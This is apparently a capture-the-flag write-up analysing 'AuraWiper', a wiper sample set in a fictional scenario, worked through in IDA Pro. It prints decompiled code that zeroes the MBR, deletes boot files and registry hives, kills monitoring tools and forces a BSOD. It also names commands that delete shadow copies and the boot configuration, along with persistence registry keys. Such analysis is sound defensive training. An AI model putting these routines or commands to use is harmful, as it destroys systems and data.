









# AuraWiper

---

Challenge link: [https://malops.io/challenges/aurawiper](https://malops.io/challenges/aurawiper)

## Scenario

FICTIONAL SCENARIO - 08 March 2026, 03:14 CET. Meridian Cold Chain Logistics, a mid-sized refrigerated-freight operator, loses 340 endpoints in under twenty minutes. No ransom note. No C2 beacon. No negotiation portal. By the time the on-call engineer reaches the office, the fleet is a wall of 'no bootable device' screens and the recovery partitions are gone. A single workstation lost power mid-execution and was pulled from the network before it finished. You are the reverse engineer on the response team. The sample is on your desk, the CISO wants an answer by 09:00, and the binary still has the developer's fingerprints on it.”

---

### Question 1 : What is the last part of PDB file path embedded in the malware sample?

We can quickly find all the .pdb strings by using strings command on the binary.

command:

```python
strings -a 521e714bdc7fdbdc9789aaac1beec6ca63b936e613bc606e2c341d1d8ced64d0.bin | grep -i "\.pdb"
```



Strings command strings -a 521e714bdc7fdbdc9789aaac1beec6ca63b936e613bc606e2c341d1d8ced64d0.bin | grep -i "\.pdb”

ANSWER:

```python
SF-Verif.pdb        
```

---

### Question 2: The wiper checks two mutex values in the main function. What are those values?

#### Background: Why Malware Uses Mutexes

A Mutex (Mutual Exclusion object) is a synchronization primitive provided by the Windows OS. Malware authors commonly create named mutexes for:

1. Single-Instance Enforcement: Preventing multiple copies of the wiper/ransomware from running simultaneously on the same host and competing for file locks.
2. Payload Coordination: Electing a "leader" process to coordinate destructive actions while other instances sleep or act as secondary workers.
3. Infection Marker: Checking if a deployment stage has already been executed on the machine.

In the Win32 API, CreateMutexA(NULL, FALSE, "MutexName") is called, followed by checking GetLastError() == 183 (ERROR_ALREADY_EXISTS / 0xB7).

Step 1: Locate and Navigate to main

1. In the Functions window (Shift + F3), search for main.
2. Double-click main (located at address **`0x1400156F0`**) to jump to the function entry point.

Step 2: Decompile the Function (F5)

```python
    MutexA = CreateMutexA(0, 0, "Global\\SFV67PayloadLeader");                                                            
    if ( GetLastError() == 183 ) // ERROR_ALREADY_EXISTS                                                                  
    {                                                                                                                     
      if ( MutexA )                                                                                                       
        CloseHandle(MutexA);                                                                                              
      CreateThread(0, 0, sub_1400154F0, 0, 0, 0);                                                                         
      while ( 1 )                                                                                                         
        Sleep(0xEA60u); // 60-second loop                                                                                 
    }                                                                                                                     
                                                                                                                          
    // Check Mutex #2                                                                                                     
    v6 = CreateMutexA(0, 0, "Global\\SFVDeployOnce");                                                                     
    if ( GetLastError() == 183 ) // ERROR_ALREADY_EXISTS                                                                  
    {                                                                                                                     
      if ( v6 )                                                                                                           
        CloseHandle(v6);                                                                                                  
    }                                                                                                                     
    else                                                                                                                  
    {                                                                                                                     
      CreateThread(0, 0, sub_1400130F0, 0, 0, 0);                                                                         
    } 
```



Decompilation of main

#### Understand the Malware Logic

1. Global\SFV67PayloadLeader:
    - If the mutex already exists (GetLastError() == 183), the current process is not the leader. It closes the handle, spawns a secondary thread (sub_1400154F0), and enters an infinite sleep loop (Sleep(60000)).
    - If it successfully claims the mutex, this process acts as the Payload Leader.
2. Global\SFVDeployOnce:
    - If this mutex does not exist yet, it creates a dedicated deployment thread (sub_1400130F0) to execute initial deployment tasks once, ensuring it does not repeat them if another process is spawned.

ANSWER:

```python
Global\SFV67PayloadLeader, Global\SFVDeployOnce
```

---

### Question 3: How many persistence mechanisms are implemented by AuraWiper?

Trace the Persistence Setup Function (sub_140013E00)

1. From main (**`0x1400156F0`**), observe thread creation calling **`sub_140015590`**, which calls **`sub_140013E00`**.
2. Open **`sub_140013E00`** (at **`0x140013E00`**) and press F5 to decompile.

Analyze the 4 Persistence Routines              

#### 1. HKCU Run Key Persistence

The wiper attempts to achieve persistence across the current user's profile by registering entries under HKCU:

```c
if ( !RegOpenKeyExA(HKEY_CURRENT_USER, "Software\\Microsoft\\Windows\\CurrentVersion\\Run", 0, 2u, &hKey) )
{
  for ( j = 0; j < 3; ++j )
    RegSetValueExA(hKey, off_14005A3B0[j], 0, 1u, lpData[0], length);
  RegCloseKey(hKey);
}
```

#### 2. HKLM Run Key Persistence

If running with administrative privileges, it simultaneously registers itself under system-wide machine autoruns:

```c
if ( !RegOpenKeyExA(HKEY_LOCAL_MACHINE, "Software\\Microsoft\\Windows\\CurrentVersion\\Run", 0, 2u, &hKey) )
{
  for ( k = 0; k < 3; ++k )
    RegSetValueExA(hKey, off_14005A3B0[k], 0, 1u, lpData[0], length);
  RegCloseKey(hKey);
}
```

#### 3. User Startup Folder Persistence

The malware resolves the **`%APPDATA%`** environment variable and writes payload copies directly into the Windows Startup

folder:

```c
v23 = (const char *)getenv("APPDATA"); // sub_140030D1C
// Resolves: %APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\<payload>.exe
```

#### 4. Winlogon Shell Hijack Persistence

The wiper modifies the default Windows logon shell value to execute its payload alongside explorer.exe:

```c
if ( !RegOpenKeyExA(HKEY_LOCAL_MACHINE, "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon", 0, 2u, &hKey) )
{
  // Appends: explorer.exe,"<path_to_malware>"
  RegSetValueExA(hKey, "Shell", 0, 1u, lpData[0], length);
  RegCloseKey(hKey);
}
```

ANSWER:

```python
4
```

---

### Question 4: What is the virtual address of the function responsible for terminating common system monitoring tools by process name?

Search for Target Process Names in IDA Strings

1. Press Shift + F12 to open the Strings subview in IDA Pro.
2. Press Ctrl + F and search for standard monitoring tools such as taskmgr.exe or ProcessHacker.exe.
3. You will find consecutive strings stored in the .rdata section:
    
    ```c
    0x14005D4A0: taskmgr.exe
    0x14005D4B0: ProcessHacker.exe
    0x14005D4C8: procexp.exe
    0x14005D4D8: procexp64.exe
    0x14005D4E8: powershell.exe
    ```
    

Follow Cross-References (X)

1. Select the taskmgr.exe string (or ProcessHacker.exe) and press X to check cross-references.
2. IDA jumps directly to instruction **`0x140011BF1`** inside function **`sub_140011BE0`**.

Decompile and Analyze the Function (F5)         


Decompiled: **`sub_140011BE0`**

```c
// Virtual Address: 0x140011BE0                                                                                       
    void __noreturn sub_140011BE0()                                                                                       
    {                                                                                                                     
      DWORD i;                                                                                                            
      DWORD CurrentProcessId;                                                                                             
      HANDLE v2;                                                                                                          
      void *v3;                                                                                                           
                                                                                                                          
      for ( i = 20000; ; i = 100 )                                                                                        
      {                                                                                                                   
        Sleep(i);                                                                                                         
        // Terminate common system monitoring tools by process name                                                       
        sub_140010570("taskmgr.exe");                                                                                     
        sub_140010570("ProcessHacker.exe");                                                                               
        sub_140010570("procexp.exe");                                                                                     
        sub_140010570("procexp64.exe");                                                                                   
        sub_140010570("powershell.exe");                                                                                  
                                                                                                                          
        // Boost the current process priority class to REALTIME (0x100)                                                   
        CurrentProcessId = GetCurrentProcessId();                                                                         
        v2 = OpenProcess(PROCESS_SET_INFORMATION, 0, CurrentProcessId);                                                   
        v3 = v2;                                                                                                          
        if ( v2 )                                                                                                         
        {                                                                                                                 
          SetPriorityClass(v2, REALTIME_PRIORITY_CLASS); // 0x100                                                         
          CloseHandle(v3);                                                                                                
        }                                                                                                                 
      }                                                                                                                   
    }           
```

Analysis Summary:

- Function Start Address: 0x140011BE0
- Mechanism: Spawns an infinite loop that runs every 100 ms after an initial 20-second delay. It repeatedly invokes sub_140010570 on each tool's executable name to terminate any running instances and elevates the malware's process priority to REALTIME_PRIORITY_CLASS.

ANSWER:

```c
0x140011be0
```

---

### Question 5: How many times does AuraWiper invoke the process-termination function?

#### Method: 1

Using Cross-References (X)

1. Press G (Jump to address) and navigate to the process-termination function at 0x140010570.
2. Select the function name header sub_140010570 and press X (Jump to Cross-References).
3. Filter out non-code references (.pdata tables):
• 5 call references in sub_140011BE0
• 3 call references in sub_140011C70
4. Count the total code call sites → 8.



Cross-References of sub_140010570

---

#### Method 2: Using the IDAPython Console

Run this script to list and count all direct call instructions targeting 0x140010570:

```
import idautils, idc

target = 0x140010570
calls = [hex(x.frm) for x in idautils.XrefsTo(target) if idc.print_insn_mnem(x.frm) == "call"]
print(f"Total calls: {len(calls)}")
for c in calls:
    print(f"  - Call at {c}")
```

Output:

```
Total calls: 8
  - Call at 0x140011bf8
  - Call at 0x140011c04
  - Call at 0x140011c10
  - Call at 0x140011c1c
  - Call at 0x140011c28
  - Call at 0x140011c97
  - Call at 0x140011ca3
  - Call at 0x140011caf
```



IDAPython Console

ANSWER:

```c
8
```

---

### Question 6: What is the virtual address of the function that implements the wiper's destructive payload?

#### Analysis of the Destructive Payload

Function sub_140014E40 at 0x140014E40 is the master coordinator of AuraWiper's destructive payload. When invoked, it

executes the following destructive phases in sequence:

```c
                      ┌──────────────────────────────────────────────┐                                                    
                      │    sub_140014E40 (Destructive Master)        │                                                    
                      │    • Acquires SeShutdownPrivilege            │                                                    
                      └──────────────────────┬───────────────────────┘                                                    
                                             │                                                                            
           ┌───────────────────┬─────────────┴───────┬──────────────────┐                                                 
           ▼                   ▼                     ▼                  ▼                                                 
    ┌──────────────┐   ┌──────────────┐      ┌──────────────┐   ┌──────────────┐                                          
    │sub_140011AA0 │   │sub_140011A70 │      │sub_140011C70 │   │sub_140011B50 │                                          
    │Overwrites    │   │Destroys BCD, │      │Kills Windows │   │Disables Task │                                          
    │\\.\Physical- │   │ShadowCopies, │      │Defender &    │   │Manager via   │                                          
    │Drive0 (MBR)  │   │& Boot Files  │      │Security UI   │   │Registry      │                                          
    └──────────────┘   └──────────────┘      └──────────────┘   └──────────────┘                                          
                                             │                                                                            
                                     [Sleep 75 seconds]                                                                   
                                             │                                                                            
                                             ▼                                                                            
                       ┌───────────────────────────────────────────┐                                                      
                       │ NtRaiseHardError(0xDEADDEAD) ──> BSOD     │                                                      
                       │ clean.bat self-deletion                   │                                                      
                       └───────────────────────────────────────────┘   
```

#### Key Destructive Components Spawned by sub_140014E40

#### 1. Disk Wiping Routine (0x140011AA0)

Opens the raw physical disk handle (\\.\PhysicalDrive0) and overwrites the first 512 bytes (MBR/Partition table) with

null bytes in an infinite loop:

```c
// Address: 0x140011AA0
void __noreturn sub_140011AA0()
{
  HANDLE FileW;
  DWORD NumberOfBytesWritten;
  _BYTE Buffer[512];

  Sleep(10000);
  while ( 1 )
  {
    memset(Buffer, 0, sizeof(Buffer));
    FileW = CreateFileW(L"\\\\.\\PhysicalDrive0", 0x10000000u, 3u, 0, 3u, 0, 0);
    if ( FileW != INVALID_HANDLE_VALUE )
    {
      WriteFile(FileW, Buffer, 0x200u, &NumberOfBytesWritten, 0);
      CloseHandle(FileW);
    }
    Sleep(200);
  }
}
```

#### 2. System & Boot Destruction Routine (0x140011A70 & 0x140011650)

- Disables Windows Recovery (reagentc /disable)
- Deletes Volume Shadow Copies (vssadmin delete shadows /all /quiet, wmic shadowcopy delete)
- Corrupts the BCD store (bcdedit /delete {default} /f, bcdedit /delete {bootmgr} /f)
- Deletes core boot and SAM files:
    - C:\Windows\System32\winload.exe, winload.efi, bootmgr
    - C:\Windows\System32\config\SAM, SECURITY, SYSTEM, SOFTWARE

#### 3. Forced BSOD Crash & Self-Delete

- Invokes NtRaiseHardError(3735936685, ...) (0xDEADDEAD) via ntdll.dll to cause a Blue Screen of Death.
- Writes and executes C:\Windows\Temp\clean.bat to delete the malware sample.

ANSWER:

```c
0x140014e40
```

---

### Question 7: Which Windows privilege does AuraWiper attempt to modify?

### Method 1: Cross-References from AdjustTokenPrivileges

1. In the Imports subview (View → Open subviews → Imports), search for AdjustTokenPrivileges or LookupPrivilegeValueW.
2. Press X on LookupPrivilegeValueW to jump to its call at 0x140014ED6 inside function sub_140014E40.
3. Observe the second parameter (rdx) passed to LookupPrivilegeValueW:

```c
lea rdx, Name ; "SeShutdownPrivilege"
xor ecx, ecx ; lpSystemName = NULL
call cs:LookupPrivilegeValueW
```



LookupPrivilegeValueW second parameter rdx is SeShutdownPrivilege

---

### Method 2: Inspecting the C Pseudocode (F5)

Opening **`sub_140014E40`** in the decompiler shows the token privilege adjustment:

```c
// Address: 0x140014E40                                                                                               
    CurrentProcess = GetCurrentProcess();                                                                                 
    if ( OpenProcessToken(CurrentProcess, TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &TokenHandle) )                          
    {                                                                                                                     
      // Look up LUID for SeShutdownPrivilege                                                                             
      v3 = LookupPrivilegeValueW(0, L"SeShutdownPrivilege", &Luid);                                                       
      if ( v3 )                                                                                                           
      {                                                                                                                   
        NewState.PrivilegeCount = 1;                                                                                      
        NewState.Privileges[0].Luid = Luid;                                                                               
        NewState.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;                                                         
        // Modify privilege in token                                                                                      
        AdjustTokenPrivileges(TokenHandle, 0, &NewState, sizeof(NewState), 0, 0);                                         
      }                                                                                                                   
      CloseHandle(TokenHandle);                                                                                           
    }                                                                                                                     
                                                                                                                          
    // Later in the function: Native NTAPI call                                                                           
    RtlAdjustPrivilege = GetProcAddress(hNtdll, "RtlAdjustPrivilege");                                                    
    RtlAdjustPrivilege(19, 1, 0, &prev_state); // 19 == SeShutdownPrivilege                                               
    NtRaiseHardError(0xDEADDEAD, 0, 0, 0, 6, &response); 
```

ANSWER:

```c
SeShutdownPrivilege
```

---

### Question 8: AuraWiper creates a registry policy key to prevent the user from terminating the wiper process. Which registry key is responsible for this?

To prevent users and administrators from opening Windows Task Manager to terminate the wiper process, AuraWiper enforces the DisableTaskMgr administrative policy. 

When DisableTaskMgr is set to 1 in the Windows Registry under the Current User's policy subkey, any attempt to launch Task Manager (Ctrl + Shift + Esc, Ctrl + Alt + Del, or taskmgr.exe) is blocked by Windows with the message:

│ "Task Manager has been disabled by your administrator."

#### Decompilation of (**`sub_140011B50`**)

Navigating to function **`sub_140011B50`** (at address **`0x140011B50`**) shows the exact registry creation and write logic:


Decompilation of (**`sub_140011B50`**)

ANSWER:

```c
HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System\DisableTaskMgr
```

---

### Question 9: Which Windows API handles communication with the Media Control Interface?

Method 1: Using the Imports Tab

1. Open the Imports subview (View → Open subviews → Imports).
2. Search for mci or WINMM.
3. Locate the function imported from WINMM.dll:
Address: .idata:000000014004C670
Name: mciSendStringA
Library: WINMM

### Method 2: Strings View (Shift + F12)

1. Press Shift + F12 and search for cdaudio or door open.
2. Locate the strings:
• 0x14005D500: "set cdaudio door open"
• 0x14005D518: "set cdaudio door closed"
3. Press X on either string to jump into function **`sub_140011CD0`** where mciSendStringA is called.

#### Decompilation & Assembly Evidence (sub_140011CD0)



Decompilation of sub_140011CD0

ANSWER:

```c
mciSendStringA
```

---

### Question 10: What is the virtual address of the function responsible for displaying random string?

Cross-References to MessageBoxA

1. Go to the Imports subview (View → Open subviews → Imports).
2. Search for MessageBoxA (address 0x14004C588).
3. Press X on MessageBoxA to view cross-references.
4. It is called from address 0x14000FCA4, which belongs to function **sub_14000FC00** (**`0x14000FC00`**).

### The Random String Display Worker (**`0x14000FC00`**)

Function **`sub_14000FC00`** is the direct worker thread that invokes MessageBoxA using an indexed array of randomized

strings:

```c
// Virtual Address: 0x14000FC00
__int64 __fastcall sub_14000FC00(_DWORD *lpThreadParameter)
{
  DWORD CurrentThreadId = GetCurrentThreadId();
  HHOOK v4 = SetWindowsHookExW(WH_CBT, fn, 0, CurrentThreadId);

  // Displays a popup with a random string variant:
  MessageBoxA(
    0,
    off_14005DCA8[dword_14006AD10 % 6],  // "67", "SIXTY-SEVEN", "SIX SEVEN", "6  7", etc.
    off_14005E238[dword_14006AD10 % 4],  // "67", "67 67 67", etc.
    MB_ICONHAND | MB_SYSTEMMODAL
  );

  ++dword_14006AD10;
  UnhookWindowsHookEx(v4);
  free(lpThreadParameter);
  return 0;
}
```

The string arrays stored at off_14005DCA8 and off_14005E238 contain:

- "67"
- "SIXTY-SEVEN"
- "SIX SEVEN"
- "6  7"
- "SIXTY - SEVEN"
- "S I X T Y  S E V E N"

### The Popup Coordinator (**`0x14000F9A0`**)

Function sub_14000F9A0 continuously calculates random screen coordinates via rand() % GetSystemMetrics(...) and creates threads running sub_14000FC00:

```c
// Virtual Address: 0x14000F9A0
__int64 sub_14000F9A0()
{
  int SystemMetrics = GetSystemMetrics(SM_CXSCREEN);
  int v1 = GetSystemMetrics(SM_CYSCREEN);
  srand(GetTickCount());

  for ( int i = 0; i < 15; ++i )
  {
    int *coords = (int *)operator new(8u);
    coords[0] = rand() % SystemMetrics; // Random X
    coords[1] = rand() % v1;            // Random Y
    CreateThread(0, 0, sub_14000FC00, coords, 0, 0); // Spawn popup
    Sleep(400);
  }
  ...
}
```

ANSWER:

```c
0x14000fc00
```

---

### Question 11: What is the offset address of the array containing the lpText values?

#### Technical Analysis (Win32 x64 Calling Convention)

The standard signature for MessageBoxA in Windows is:

```c
int MessageBoxA(
  HWND   hWnd,        // 1st arg: rcx
  LPCSTR lpText,      // 2nd arg: rdx  <--- Target Array
  LPCSTR lpCaption,   // 3rd arg: r8   <--- Caption Array (0x14005E238)
  UINT   uType        // 4th arg: r9   (0x1030)
);
```

Under the x64 Windows fastcall ABI:

- rcx: hWnd (set to 0 / NULL)
- rdx: lpText (loaded from array 0x14005DCA8)
- r8: lpCaption (loaded from array 0x14005E238)
- r9: uType (0x1030 = MB_ICONHAND | MB_SYSTEMMODAL)

#### Disassembly Evidence in sub_14000FC00

Inspecting the assembly instructions at 0x14000FC7A–0x14000FCA4 confirms how the arguments are loaded into registers

right before calling MessageBoxA:

```c
.text:000000014000FC7A  mov  r8, ds:rva off_14005E238[rcx+r8*8]   ; lpCaption (0x14005E238)
.text:000000014000FC82  mov  eax, edx
...
.text:000000014000FC94  mov  r9d, 1030h                           ; uType
.text:000000014000FC9A  mov  rdx, ds:rva off_14005DCA8[rcx+rdx*8] ; lpText    (0x14005DCA8)
.text:000000014000FCA2  xor  ecx, ecx                             ; hWnd = 0
.text:000000014000FCA4  call cs:MessageBoxA                       ; Invoke MessageBoxA
```

Array Contents at 0x14005DCA8

The pointer array at 0x14005DCA8 stores 6 pointers to the random body text strings:



Array at 0x14005DCA8

ANSWER:

```c
0x14005dca8
```

---

### Question 12: What is the virtual address of the function responsible for overwriting the Master Boot Record (MBR)?

#### Background: How MBR Wiping Works

The Master Boot Record (MBR) occupies the first 512 bytes (Sector 0) of a partitioned storage device (such as \\.\PhysicalDrive0). It contains the initial bootstrap code and the 64-byte partition table.

When malware obtains raw device access:

1. It opens a handle to the raw drive using CreateFileW(L"\\\\.\\PhysicalDrive0", ...).
2. It zeroes out or corrupts a 512-byte buffer (0x200 bytes).
3. It calls WriteFile(...) directly to Sector 0, permanently destroying the partition table and rendering the machine unbootable upon subsequent restarts.

---

#### Using the Strings Subview (Shift + F12)

1. Press Shift + F12 to open the Strings window.
2. Press Ctrl + F and search for PhysicalDrive0.
3. Locate the wide string at 0x14005D470:
    
    .rdata:000000014005D470  \\.\PhysicalDrive0
    
4. Double-click the string and press X to view cross-references.
5. The cross-reference points directly to instruction 0x140011B01 inside function sub_140011AA0.

#### Decompilation & Assembly Evidence (sub_140011AA0)

Navigating to function **`sub_140011AA0`** at **`0x140011AA0`** reveals the dedicated MBR wiping thread:

```c
// Virtual Address: 0x140011AA0
void __noreturn sub_140011AA0()
{
  HANDLE FileW;
  void *v1;
  DWORD NumberOfBytesWritten;
  _BYTE Buffer[512];

  // Initial delay of 10 seconds
  Sleep(10000);

  while ( 1 )
  {
    // 1. Fill 512-byte buffer with 0s (Sector 0 size)
    memset(Buffer, 0, sizeof(Buffer));

    // 2. Open handle to raw physical disk 0
    FileW = CreateFileW(
      L"\\\\.\\PhysicalDrive0",
      GENERIC_ALL,                         // 0x10000000
      FILE_SHARE_READ | FILE_SHARE_WRITE,  // 3
      0,
      OPEN_EXISTING,                       // 3
      0,
      0
    );

    v1 = FileW;
    if ( FileW != INVALID_HANDLE_VALUE )
    {
      NumberOfBytesWritten = 0;
      // 3. Overwrite the first 512 bytes (MBR) with null bytes
      WriteFile(FileW, Buffer, 0x200u, &NumberOfBytesWritten, 0);
      CloseHandle(v1);
    }

    // Repeat every 200 ms to prevent recovery
    Sleep(200);
  }
}
```


**`sub_140011AA0`**

ANSWER:

```c
0x140011aa0
```

---

### Question 13: What is the virtual address of the function responsible for deleting key Windows system files?

#### Technical Analysis

In addition to overwriting the physical MBR, AuraWiper ensures the system cannot boot even if the partition table is recovered by targeting and deleting critical Windows operating system files using DeleteFileA.

The targeted files fall into three primary categories:

1. Boot Loaders and EFI Binaries: winload.exe, winload.efi, bootmgr, bootmgfw.efi, winresume.exe, winresume.efi.
2. Core OS Kernels and Drivers: ntoskrnl.exe, hal.dll, kernel32.dll.
3. Core Registry Hives: SAM, SECURITY, SYSTEM, SOFTWARE.
4. Legacy Boot Records across all partitions: Iterates drive letters from C: to Z: (i = 67 to 90) deleting root-level boot.ini, ntldr, and bootmgr.

#### Decompilation (sub_140011650)

Navigating to address **`0x140011650`** in IDA Pro reveals the explicit sequence of file deletion API calls:

```c
// Virtual Address: 0x140011650
void sub_140011650()
{
  // 1. Delete Bootloaders and Kernel Images
  DeleteFileA("C:\\Windows\\System32\\winload.exe");
  DeleteFileA("C:\\Windows\\System32\\winresume.exe");
  DeleteFileA("C:\\Windows\\System32\\winload.efi");
  DeleteFileA("C:\\Windows\\System32\\winresume.efi");
  DeleteFileA("C:\\Windows\\System32\\bootmgr");
  DeleteFileA("C:\\Windows\\System32\\bootmgfw.efi");
  DeleteFileA("C:\\Windows\\System32\\hal.dll");
  DeleteFileA("C:\\Windows\\System32\\ntoskrnl.exe");
  DeleteFileA("C:\\Windows\\System32\\kernel32.dll");

  // 2. Delete Registry SAM and Security Hives
  DeleteFileA("C:\\Windows\\System32\\config\\SAM");
  DeleteFileA("C:\\Windows\\System32\\config\\SECURITY");
  DeleteFileA("C:\\Windows\\System32\\config\\SYSTEM");
  DeleteFileA("C:\\Windows\\System32\\config\\SOFTWARE");

  // 3. Delete Root Boot Files
  DeleteFileA("C:\\boot.ini");
  DeleteFileA("C:\\ntldr");
  DeleteFileA("C:\\bootmgr");
  DeleteFileA("C:\\bootmgr.efi");

  // 4. Iterate Drives 'C:' (67) through 'Z:' (90) to wipe partition boot files
  for ( unsigned __int8 i = 'C'; (char)i <= 'Z'; ++i )
  {
    // Deletes <Drive>:\bootmgr, <Drive>:\boot.ini, <Drive>:\ntldr
    DeleteFileA(ConstructPath(i, "bootmgr"));
    DeleteFileA(ConstructPath(i, "boot.ini"));
    DeleteFileA(ConstructPath(i, "ntldr"));
  }
}
```

ANSWER:

```c
0x140011650
```

---

